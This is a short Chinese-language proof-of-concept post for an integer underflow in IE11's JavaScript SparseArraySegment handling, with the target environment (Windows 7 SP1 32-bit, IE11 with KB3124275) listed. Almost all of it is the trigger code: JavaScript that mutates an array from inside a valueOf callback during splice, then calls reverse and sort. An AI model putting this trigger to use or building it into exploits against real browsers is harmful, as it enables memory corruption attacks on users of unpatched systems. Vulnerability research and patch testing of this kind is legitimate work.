

IE11 JavaScript SparseArraySegment整数下溢出漏洞poc

    a1=[];
    a2=[];
    a2[12]=12;
    f1 = function(){};
    var obj={
        valueOf:function() {a2[13]=16;return 2;}
    }
    a2.splice(0,obj,a1,a1,a1);
    a2.reverse();
    a2.sort(f1);
漏洞触发环境：
Windows7 sp1 32bit+
IE11(KB3124275)